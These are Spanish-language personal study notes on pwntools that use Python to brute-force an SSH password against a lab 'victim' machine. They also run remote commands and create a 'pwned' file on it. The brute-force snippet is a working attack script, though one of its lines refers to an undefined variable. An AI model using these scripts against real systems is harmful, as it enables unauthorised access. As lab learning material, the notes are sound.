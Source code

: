 Para comprobar que existe conectividad por ssh, para ello ejecutamos este código con una máquina víctima:
```python
from pwn import *

user = 'mario'
host = '192.168.0.18'
password = '123123'

ssh_conn = ssh(user, host, password=password)
```
Y veremos que con estos datos es correcto y hay conectividad:
![[Mis apuntes/ANEXOS/Pasted image 20230417133513.png]]
## ATAQUE FUERZA BRUTA CONTRASEÑAS SSH PWN
Podemos probar varias combinaciones de contraseñas con la librería pwn de esta forma.
```python
from pwn import *

posibles_passwords = ['mario123', 'pass123', 'password1', '123123']

user = 'mario'
host = '192.168.0.18'

for i in posibles_passwords:
    try:
        ssh_connection = ssh(user, host, password=i)
        print(f"LA CONTRASEÑA ES {i}")
    except:
        pass

ssh_conn('whoami') # Ejecutamos un comando con espacios.
```
Y aquí vemos el resultado y cómo la contraseña correcta es la de 123123:
![[Mis apuntes/ANEXOS/Pasted image 20230417151130.png]]
## EJECUTAR COMANDOS SSH PWN
Y ahora podemos entrar por ssh y ejecutar comandos remotamente poniendo este código:
```python
from pwn import *

user = 'mario'
host = '192.168.0.18'
password = '123123'

ssh_conn = ssh(user, host, password=password)

ssh_conn.whoami() # Ejecutamos un comando.
```
Y vemos que el comando se ejecuta correctamente:
![[Mis apuntes/ANEXOS/Pasted image 20230417133637.png]]
Pero si queremos ejecutar un comando con espacios, lo haríamos de esta forma:
```python
from pwn import *

user = 'mario'
host = '192.168.0.18'
password = '123123'

ssh_conn = ssh(user, host, password=password)

ssh_conn('ls -la') # Ejecutamos un comando con espacios.
```
Y vemos el resultado:
![[Mis apuntes/ANEXOS/Pasted image 20230417133859.png]]
## CAMBIAR DE DIRECTORIO DE TRABAJO SSH PWN
Si queremos que se cambie el actual directorio de trabajo de la máquina víctima lo haremos con el parámetro set_working_directory:
```python
from pwn import *

user = 'mario'
host = '192.168.0.18'
password = '123123'

ssh_conn = ssh(user, host, password=password)

# Cambiar el directorio de trabajo en el servidor remoto
ssh_conn.set_working_directory('/home/mario/Escritorio')
ssh_conn('touch pwned')
```
Y ahora vemos como se ha creado un nuevo archivo dentro del escritorio de la máquina víctima:
![[Mis apuntes/ANEXOS/Pasted image 20230417134255.png]]

